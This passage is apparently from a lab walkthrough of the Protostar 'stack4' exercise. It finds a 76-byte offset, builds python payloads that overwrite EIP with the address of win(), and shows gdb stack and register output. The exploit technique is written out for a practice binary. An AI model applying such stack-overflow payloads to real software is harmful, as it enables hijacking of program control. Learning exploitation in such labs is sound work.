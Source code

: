 ​	"0xbffffc5c" - "0xbffffc10" = "0x4c" (76 in decimal)

As we can see our EIP value is being overwritten by the "TTTT", so we know that our input lands at the beginning of the EIP address. Giving us full control.

We can test this theory by using a payload of 76 'A' characters, and 4 'B' characters. If all is well, we should receive a 'Seg Fault' (memory corruption) pointing to "0x42424242". Let's test this:

```
$ python -c 'print "A"*76 + "B"*4' > /tmp/stack4
```

```
(gdb) r < /tmp/stack4
Starting program: /opt/protostar/bin/stack4 < /tmp/stack4

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

We can see that it errors when attempting to access the memory address "0x42424242". So now we have full control of EIP!

Finally, let's build a payload that gives us our junk buffer of 76 'A' characters, followed by the little endian representation of "0x080483f4", the first address of our win() function.

```
$ python -c 'print "A"*76 + "\xf4\x83\x04\x08"' > /tmp/stack4
```

In theory, this will now overwrite EIP with the address of win(), continue execution into this function and print our target win condition. We put a breakpoint at our gets(), step over to accept the piped input and dump our stack.

```
(gdb) x/30wx $esp
0xbffffc00:	0xbffffc10	0xb7ec6165	0xbffffc18	0xb7eada75
0xbffffc10:	0x41414141	0x41414141	0x41414141	0x41414141 <-- start of input on this row
0xbffffc20:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc30:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc40:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc50:	0x41414141	0x41414141	0x41414141	0x080483f4 <-- EIP overwrite, win() address
0xbffffc60:	0x00000000	0xbffffd04	0xbffffd0c	0xb7fe1848
0xbffffc70:	0xbffffcc0	0xffffffff
(gdb) x/wx 0xbffffc10+0x4c <-- our input start+offset
0xbffffc5c:	0x080483f4     <-- win() EIP overwrite
```

If we continue through our instructions 1 by 1, we eventually see that our EIP changes to point to the address of win():

```
(gdb) ni
0x0804841e in main (argc=Cannot access memory at address 0x41414149) at stack4/stack4.c:16 <-- corrupt EBP?
16	in stack4/stack4.c
(gdb) ni
win () at stack4/stack4.c:7
7	in stack4/stack4.c
(gdb) i r
eax            0xbffffc10	-1073742832
ecx            0xbffffc10	-1073742832
edx            0xb7fd9334	-1208118476
ebx            0xb7fd7ff4	-1208123404
esp            0xbffffc60	0xbffffc60
ebp            0x41414141	0x41414141
esi            0x0	0
edi            0x0	0
eip            0x80483f4	0x80483f4 <win>     <--- excellent
eflags         0x200246	[ PF ZF IF ID ]
```